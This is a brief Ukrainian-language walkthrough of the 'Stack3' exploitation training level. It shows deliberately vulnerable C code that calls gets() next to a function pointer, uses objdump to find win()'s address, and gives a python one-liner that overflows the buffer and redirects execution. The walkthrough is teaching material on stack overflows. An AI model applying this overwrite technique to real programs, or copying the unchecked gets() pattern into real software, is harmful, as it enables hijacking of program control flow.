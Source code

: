 # STACK3

Цей рівень розглядає змінні середовища, як їх можна встановити, а також перезаписувати покажчики функцій, що зберігаються в стеку.

Вихідний код для Stack3:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
Спочатку нам потрібно з'ясувати, яка адреса функції win знаходиться в пам'яті, на щастя, objdump покаже це досить чітко.

objdump -x stack3 | grep win

![image](https://user-images.githubusercontent.com/47494881/147484203-9ef6796c-8144-4645-8e0d-77d8dce6d99e.png)

Тепер необхідно переписати зміну fp для цього зновштаки нам знадоюиться 64 байти сміття (64 'а'), а потім адрес функції win
```
python -c "print('a' * 64 + '\x24\x84\x04\x08')" | ./stack3
```
Результати:

![image](https://user-images.githubusercontent.com/47494881/147484764-08acca82-e1ed-44f2-90da-4c7b4172f9f7.png)

